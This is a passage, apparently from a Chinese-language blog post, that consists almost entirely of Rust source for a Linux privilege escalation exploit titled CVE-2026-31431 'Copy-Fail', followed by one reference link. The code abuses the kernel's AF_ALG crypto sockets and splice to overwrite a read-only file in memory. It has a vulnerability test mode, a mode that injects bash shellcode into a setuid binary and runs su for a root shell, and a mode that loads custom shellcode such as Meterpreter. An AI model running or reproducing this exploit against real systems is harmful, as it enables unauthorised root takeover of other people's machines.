    let master_fd = libc::socket(38, libc::SOCK_SEQPACKET, 0);

    // Initialize sockaddr_alg structure to specify the algorithm type (aead)
    let mut addr: [u8; 88] = [0; 88];
    addr[0..2].copy_from_slice(&38u16.to_ne_bytes()); // Set AF_ALG (38)
    std::ptr::copy_nonoverlapping("aead".as_ptr(), addr.as_mut_ptr().add(2), 4);
    
    // Set the specific crypto transformation
    let name = "authencesn(hmac(sha256),cbc(aes))";
    std::ptr::copy_nonoverlapping(name.as_ptr(), addr.as_mut_ptr().add(24), name.len());
    libc::bind(master_fd, addr.as_ptr() as _, 88);

    // Prepare and set the authentication key for the AEAD algorithm
    let mut key = [0u8; 40];
    key[0..8].copy_from_slice(&[0x08, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x10]);
    libc::setsockopt(master_fd, 279, 1, key.as_ptr() as _, 40);
    libc::setsockopt(master_fd, 279, 5, &4u32 as *const _ as _, 4);

    // Create an operational socket by accepting the configured master socket
    let op_fd = libc::accept(master_fd, std::ptr::null_mut(), std::ptr::null_mut());
    
    // Prepare the payload chunk, 4-byte alignment with "AAAA" padding
    let mut cmsg_buf = [0u8; 128];
    let mut data = [0u8; 8];
    data[0..4].copy_from_slice(b"AAAA");
    data[4..8].copy_from_slice(chunk);
    
    // Set I/O vector for sending data
    let mut iov = libc::iovec { iov_base: data.as_mut_ptr() as _, iov_len: 8 };
    let mut msg: libc::msghdr = std::mem::zeroed();
    msg.msg_iov = &mut iov;
    msg.msg_iovlen = 1;
    msg.msg_control = cmsg_buf.as_mut_ptr() as _;
    
    let mut p = cmsg_buf.as_mut_ptr();

    // Setup ALG_SET_IV (Initialization Vector)
    let mut h1: libc::cmsghdr = std::mem::zeroed();
    h1.cmsg_len = libc::CMSG_LEN(4) as _;
    h1.cmsg_level = 279;
    h1.cmsg_type = 3;
    *(p as *mut libc::cmsghdr) = h1;
    p = p.add(libc::CMSG_SPACE(4) as usize);

    let mut h2: libc::cmsghdr = std::mem::zeroed();
    h2.cmsg_len = libc::CMSG_LEN(20) as _;
    h2.cmsg_level = 279;
    h2.cmsg_type = 2;
    *(p as *mut libc::cmsghdr) = h2;
    *(libc::CMSG_DATA(p as _) as *mut u32) = 16;
    p = p.add(libc::CMSG_SPACE(20) as usize);

    let mut h3: libc::cmsghdr = std::mem::zeroed();
    h3.cmsg_len = libc::CMSG_LEN(4) as _;
    h3.cmsg_level = 279;
    h3.cmsg_type = 4;
    *(p as *mut libc::cmsghdr) = h3;
    *(libc::CMSG_DATA(p as _) as *mut u32) = 8;
    
    msg.msg_controllen = 32 + 16 + 16; 

    libc::sendmsg(op_fd, &msg, 0x8000);
    
    let mut pipes = [0i32; 2];
    libc::pipe(pipes.as_mut_ptr());
    let mut off: i64 = 0;
    
    libc::splice(target_fd, &mut off, pipes[1], std::ptr::null_mut(), t_idx + 4, 0);
    libc::splice(pipes[0], std::ptr::null_mut(), op_fd, std::ptr::null_mut(), t_idx + 4, 0);
    
    let mut drain = [0u8; 1024];
    libc::recv(op_fd, drain.as_mut_ptr() as _, 1024, 0x40);

    // Clean all file descriptors
    libc::close(op_fd);
    libc::close(master_fd);
    libc::close(pipes[0]);
    libc::close(pipes[1]);
}

fn main() -> io::Result<()> {
    let args: Vec<String> = env::args().collect();
    println!("--------------------------------------------------");
    println!("  CVE-2026-31431 Linux Copy-Fail Exploit (Rust)   ");
    println!("--------------------------------------------------");

    if args.len() < 2 {
        println!("Usage: {} [--test | --exploit | --bin <file>]", args[0]);
        return Ok(());
    }

    match args[1].as_str() {

        "--test" => {
            // Test vulnerability

            println!("[*] Mode: Vulnerability Testing");
            
            let mut f = File::create(TEST_FILE)?;
            f.write_all(&vec![b'A'; 64])?;
            let target = File::open(TEST_FILE)?;
            
            unsafe {
                inject_payload(target.as_raw_fd(), b"HACK")
            };
            
            let mut res = vec![0u8; 4];
            File::open(TEST_FILE)?.read_exact(&mut res)?;
            
            if &res == b"HACK" {
                println!("\x1b[31;1m[!] VULNERABLE!\x1b[0m");
            }
            else {
                println!("[+] SAFE");
            }
            
            fs::remove_file(TEST_FILE).ok();
        }

        "--exploit" => {
           // Vulnerability exploitation, provide interactive shell
           
           println!("[*] Mode: Privilege Escalation (Default: /bin/bash)");
            
            let target = File::open(TARGET_BINARY)?;
            unsafe {
                inject_payload(target.as_raw_fd(), BASH_SHELLCODE)
            };
            
            println!("\n[+] Spawning root shell...");
            
            let cmd = CString::new("su").unwrap();
            unsafe {
                libc::execvp(cmd.as_ptr(), [cmd.as_ptr(), std::ptr::null()].as_ptr());
            }
        }

        "--bin" => {
            // Load customized shellcode bin file, such as Meterpreter

            if args.len() < 3 {
                println!("[!] Error: Please specify a bin file.");
                return Ok(());
            }

            let bin_path = &args[2];

            println!("[*] Mode: Custom Shellcode Injection");
            println!("[*] Loading: {}", bin_path);

            let custom_payload = fs::read(bin_path)?;
            let target = File::open(TARGET_BINARY)?;
            
            unsafe {
                inject_payload(target.as_raw_fd(), &custom_payload) 
            };

            println!("\n[+] Injection complete. Executing {}...", TARGET_BINARY);
            
            let cmd = CString::new("su").unwrap();
            unsafe {
                libc::execvp(cmd.as_ptr(), [cmd.as_ptr(), std::ptr::null()].as_ptr());
            }
        }
        
        _ => println!("[!] Unknown option.")
    }

    Ok(())
}
```

## 参考文献

[Copy Fail: 732 Bytes to Root on Every Major Linux Distribution. - Xint](https://xint.io/blog/copy-fail-linux-distributions)
